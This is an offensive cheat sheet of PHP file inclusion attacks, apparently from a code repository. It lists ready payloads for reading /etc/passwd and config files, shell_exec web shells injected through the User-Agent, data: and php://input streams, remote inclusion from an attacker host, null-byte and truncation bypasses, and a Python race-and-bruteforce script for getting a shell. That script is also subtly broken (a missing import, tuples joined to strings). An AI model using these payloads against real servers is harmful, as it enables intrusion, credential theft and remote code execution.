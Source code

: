 # Local File Inclusion

## 1) Direct Local Include
```
http://site.com/lfi.php?page=/etc/passwd
```

## 2) php://filter
```
http://www.site.com/lfi.php?page=php://filter/resource=config.php

http://www.site.com/lfi.php?page=php://filter/convert.base64-encode/resource=config.php
```

## 3) /proc/self/environ
Request's user agent can be found there

```
GET /lfi.php?page=/proc/self/environ&cmd=id HTTP/1.1
Host: www.site.com
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## 4) Including images
If image.jpg contains php code it will be interpreted.

```
http://www.site.com/lfi.php?page=upload/image.jpg
```

## 5) Zip and Phar wrappers
File must be zip archive with any extension

```
http://www.site.com/lfi.php?page=zip://image.zip#shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php
```

## 6) File Upload

It requires php interpreter that crashes upon infinite recursive inclusion, thus not removing temporary file.

1. Upload a file and trigger a self-inclusion
2. Repeat step 1 until successful attack
3. Bruteforce inclusion of /tmp/php[0-9a-zA-Z]{6}
4. Shell

We have 62**6 possible values -> 56800235584 filenames for temporary uploaded files
Birthday paradox can be applied and it results with about 280000 requests to find valid file with more than 50% chance.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

It is possible to send 20 files in one request that will be accepted by the server.

## 7) Session Files

## 8) PHPInfo Script

## 9) Temporary Files - Windows

## 10) Logs

# Remote File Inclusion
Works when allow_url_include in php.ini is set to TRUE

## 1) Direct Remote Include
Including php file in text format directly
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```

## 2) Data:text/plain
Including php code through data stream
```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

## 3) php://input

```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39

<?php echo shell_exec($_GET['cmd']);?>

```

# Fighting with extensions

## 1) Null Bytes
Add null byte that will terminate string

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500
```

## 2) Truncation

Cut extension by creating long string
```
http://www.site.com/lfi.php?page=../../../../../../../../../../../../etc/passwd
```

```
http://www.site.com/lfi.php?page=/etc/passwd..............................
```

```
http://www.site.com/lfi.php?page=/etc/passwd.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
```
